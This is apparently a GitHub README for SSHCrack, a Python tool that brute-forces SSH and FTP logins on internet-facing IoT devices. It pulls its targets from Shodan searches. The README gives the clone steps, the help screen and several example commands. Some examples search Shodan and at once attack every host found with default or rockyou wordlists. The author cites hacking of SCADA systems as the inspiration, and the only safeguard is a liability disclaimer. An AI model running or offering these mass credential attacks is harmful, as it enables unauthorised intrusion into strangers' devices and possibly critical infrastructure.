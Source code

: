 # SSHCrack
Tool for cracking into SSH IoT devices with built in Shodan API capabilities for optimal automation. This is essentially my own Hydra clone with psuedo multi threading and Shodan API capabilities to attack large amounts of targets effeciently.

The idea came from a video by David Bombal interviewing with a hacker who's efforts were against the Russian Federation in assistance of Ukraine. He mainly hacked Russia's SCADA systems along with assistance from Shodan. My idea was to basically automate this process by iterating through a large number of targets utilizing python's pseudo multi threading for faster cracking.

Currently this tool is only developed for Windows operating systems and for SSH cracking. Future versions will include Linux compatability as well as other common ports.

**DISCLAIMER: Do Not Use This Tool For Any Illegal Purposes. I Am NOT Liable For Any Damages Caused By Using This Tool. This Is Purely For Educational And Learning Purposes.**

# Usage
Download using `sudo git clone https://github.com/BredSec/SSHCrack.git`

Go to the directory `cd SSHCrack`

Run Python script with `python3 sshcrack.py -h` for the help screen
```
   _____ _____ _    _  _____ _____            _____ _  __
  / ____/ ____| |  | |/ ____|  __ \     /\   / ____| |/ /
 | (___| (___ | |__| | |    | |__) |   /  \ | |    | ' /
  \___ \___ \ |  __  | |    |  _  /   / /\ \| |    |  <
  ____) |___) | |  | | |____| | \ \  / ____ \ |____| . \
 |_____/_____/|_|  |_|\_____|_|  \_\/_/    \_\_____|_|\_\  v1.0

              Created by @BredSec

       Disclaimer: Developers not liable or responsible
       for misuse or damage caused by SSHCrack


usage: python sshcrack.py [-k --key <api key>] [-t --target <target name>] [-i --iplist <ip list>]
[-u --userlist <username list>] [-p --passlist <password list>] [-a --attack <attack method>]
[-o --output <output file name>] [-m --multi <thread number>] [-x] [-v --verbose]


-h --help                     | Display help menu of arguments and command use


-k --key <api key>            | Enter your Shodan API key here to enable Shodan searches
-t --target <target>          | Used to conduct an ssh search with shodan on a specified target
-i --iplist <ip list>         | Specify a file with a list of IPs to enumerate through and crack
-u --userlist <username list> | Specify a wordlist of usernames to enermate through
                              (default will be common default ssh logins)
-p --passlist <password list> | Specify a wordlist of passwords to enumerate through
                              (default will be common default ssh logins)
-a --attack <attack method>   | Method of attack (ssh, ftp)
-o --output <filename>        | Specify the name of an output file for successful logins
-m --multi <thread number>    | Number of threads to be used during cracking (default is one)
-x                            | X mode - runs cracking on all searched IPs immediately
-v --verbose                  | Verbose mode - display everything going on
```

# Examples
```py sshcrack.py -k xxxxxxxxxxxx -t ftp -a ftp -m 6 -x -v```
This will search for and automatically start cracking a list of ftp servers found by Shodan utilizing pseudo multi threading and the default wordlists of most common usernames and passwords for these systems. Verbose mode will tell you everything that is happening.

```py sshcrack.py -k xxxxxxxxxxxx -i iplist.txt -u wordlists\usernames.txt -p wordlists\rockyou.txt -a ssh -o output.txt```
This will conduct ssh cracking on the specified list of IP addresses using the specified wordlists and outputs to a specified file.

```py sshcrack.py -k xxxxxxxxxxxx -t ssh -a ssh -i iplist.txt -x```
Searches for an automatically starts cracking ssh servers that it found from a Shodan search after appending them to an existing IP list. This uses the default wordlists.
